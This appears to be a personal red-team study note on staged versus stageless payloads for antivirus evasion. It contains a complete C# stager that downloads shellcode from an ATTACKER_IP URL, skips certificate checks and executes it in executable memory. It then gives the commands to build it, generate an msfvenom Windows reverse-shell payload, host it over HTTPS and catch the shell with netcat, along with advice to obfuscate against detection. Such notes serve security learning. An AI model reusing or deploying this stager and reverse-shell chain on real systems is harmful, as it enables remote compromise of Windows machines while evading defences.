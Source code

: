 ```yaml
---
aliases:
  - staged versus stageless payloads
date-created: 2025-06-25
dg-publish: true
tags:
  - red-team/host-evasion
---
```

~ [[Evading Antivirus - Shellcode]]
### Introduction
---
This is how we deliver our final payload, there are two types one is **staged** and the other one is **stageless**, the difference is

- **Stageless** the [[Analyzing Shellcode - Malware|shellcode]] (payload) is embedded to itself, it's similar to a packaged app, the user opens the package then gets the 'reward'. A single step process.

- **Staged** it uses intermediary shellcode (payload) that leads to the execution of the final shellcode. Each of these 'intermediary' shellcodes is known as **stager** with a sole purpose of retrieving the final shellcode.
	- First stage (or the intermediary shellcode) is usually referred to as **stage0**.
	- Do note it's not limited to first stage then final payload - it could have many stages.

```staged
1. User Executes Payload -> 2. Retrieve FinalShell Code from Attacker ->
3.Load and execute final shellcode in memory -> 4. Send reverse shell
```


#### Key Topics
---
## Prerequisites
---
- [[Windows Internals|Windows Internals - Processes, threads, Virtual Memory, and more.]]
- [[Evading Antivirus - Shellcode]]
- [[Windows API]] 
## Why Stageless When Staged?
---

**Stageless**

- Attacking a host with very restricted network connectivity. Great to have fewer network detection
- Has a lot of perimeter security - see [[Lay off the Land]] to enumerate a host.

**Staged**

- Small footprint on disk - since **stage0** is only in charge of downloading the finalshellcode, it will most likely be small in size.
- **Final shellcode** isn't embedded into the executable - Blue team will only have access to the stage0 and nothing more. Useful for red teaming or a must 'hack' infrastructure.
- stage0 can simply be reused but it is recommended to change it up a little bit as security tools regularly scans for patterns.

So in summary:

- For _closed or heavily monitored environments_, **stageless** makes sense.
- For _persistent, stealthy campaigns_, **staged** with a well-crafted Stage0 and obfuscated final stage is often the better choice.

### Stagers in Metasploit
---
In metasploit, we can identify a stager and a stageless via the `_` and `/`:

| **Payload**                   | **Type**          |
| ----------------------------- | ----------------- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload    |
## Basic Stager 
---
Here is a stager code, note it's best to add some obfuscation or any thing that can prevent pattern detection:

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Breaking down the code:

Importing functions from `kernel32.dll`: (`VirtualAlloc`, `CreateThread`, `WiatForSingleObject`):

![[Staged and Stageless.png]]

The second most important part is the `Stager()` function:

![[Staged and Stageless-1.png]]

- `Webclient` allows us to download a shellcode using web request.
- `ServiceCertificateValidationCallback` allows us to download files from a server with self-signed or invalid certificate.
- `DownloadData` well it downloads I guess???? then stores it into the shell code var.

![[Staged and Stageless-2.png]]

- `VirtualAlloc` copy the shell code into the executable memory by requesting a memory block from the OS -- notice the use of `shellcode.length` and we make the memory executable, readable and writable via `PAGE_EXECUTE_READWRITE`.
- Copy the contents of the shellcode into the var `codeAddr` via `Marshal.Copy` function.

![[Staged and Stageless-3.png]]

- `CreateThread` to spawn a new thread on the current process that will execute our shellcode.
- The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode.
- The fifth parameter is set to **0** which means the thread will start immediately.
- Once the thread is created, call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute.

### Running our Stager to get a reverse shell
---
Make sure to change the URL in the stager0 code then compile with:

```C
csc staged-payload.cs
```

At the attacker's box generate a simple reverse shell:

```C
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Creating a simple self-signed certificate for our HTTPs server:

```C
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Then hosting our payload by running a simple HTTPs server with python:

```C
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Then listening for reverse shell connections:

```C
nc -lvp 7474
```

Then:

![[Staged and Stageless-4.png]]

